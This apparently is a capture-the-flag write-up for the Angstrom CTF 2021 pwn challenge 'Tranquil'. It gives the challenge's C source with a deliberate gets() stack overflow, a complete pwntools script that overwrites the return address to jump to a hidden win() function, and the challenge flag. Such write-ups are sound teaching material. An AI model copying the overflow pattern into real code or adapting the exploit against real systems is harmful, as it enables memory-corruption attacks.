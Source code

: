 ```yaml
---
name: Tranquil (2021)
event: Angstrom CTF 2021
category: Pwn
description: Writeup for Tranquil (pwn) - Angstrom CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Tranquil

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/2pqG6opzrug/0.jpg)](https://youtu.be/2pqG6opzrug?t=425s "Angstrom 2021: Tranquil")

## Challenge Description

> Finally, inner peace - Master Oogway

## Source

{% code overflow="wrap" %}
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int win(){
    char flag[128];

    FILE *file = fopen("flag.txt","r");

    if (!file) {
        printf("Missing flag.txt. Contact an admin if you see this on remote.");
        exit(1);
    }

    fgets(flag, 128, file);

    puts(flag);
}

int vuln(){
    char password[64];

    puts("Enter the secret word: ");

    gets(&password);


    if(strcmp(password, "password123") == 0){
        puts("Logged in! The flag is somewhere else though...");
    } else {
        puts("Login failed!");
    }

    return 0;
}

int main(){
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);

    vuln();

    // not so easy for you!
    // win();

    return 0;
}
```
{% endcode %}

## Solution

{% code overflow="wrap" %}
```py
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

def find_ip(payload):
    # Launch process and send payload
    p = process(exe)
    p.sendlineafter(':', payload)
    # Wait for the process to crash
    p.wait()
    # Print out the address of EIP/RIP at the time of crashing
    # ip_offset = cyclic_find(p.corefile.pc)  # x86
    ip_offset = cyclic_find(p.corefile.read(p.corefile.sp, 4))  # x64
    info('located EIP/RIP offset at {a}'.format(a=ip_offset))
    return ip_offset

# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Set up pwntools for the correct architecture
exe = './tranquil'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Pass in pattern_size, get back EIP/RIP offset
offset = find_ip(cyclic(100))

# Start program
io = start()

# Build the payload
payload = flat({
    offset: elf.symbols.win
})

# Save the payload to file
write('payload', payload)

# Send the payload
io.sendlineafter(': ', payload)
io.recvuntil('Login failed!\n')

# Get our flag!
flag = io.recv()
success(flag)
```
{% endcode %}

Flag: `actf{time_has_gone_so_fast_watching_the_leaves_fall_from_our_instruction_pointer_864f647975d259d7a5bee6e1}`
